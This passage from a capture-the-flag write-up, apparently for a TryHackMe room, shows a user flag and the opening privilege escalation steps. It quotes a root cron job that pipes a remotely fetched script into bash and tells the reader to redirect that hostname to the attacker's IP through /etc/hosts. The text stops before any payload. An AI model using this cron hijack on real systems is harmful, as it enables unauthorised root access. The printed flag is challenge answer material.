 
## 🏁 User Flag

- **Flag:**  
  `thm{65c1aaf000506e56996822c6281e6bf7}`
  
  <img src="./images/flag.png" alt="User Flag" width="600"/>

---

# 🚀 Privilege Escalation

- **Check Crontab for Scheduled Tasks:**
  ```bash
  cat /etc/crontab
  ```
  <img src="./images/root_access.png" alt="Crontab" width="600"/>

- **Suspicious Cron Job:**
  ```
  * * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
  ```
  <img src="./images/root_pri.png" alt="Cron Job" width="600"/>

- **Host File Manipulation:**  
  Point `overpass.thm` to your attacker's IP.
  ```bash
  sudo nano /etc/hosts
  ```
  <img src="./images/host.png" alt="Host File" width="600"/>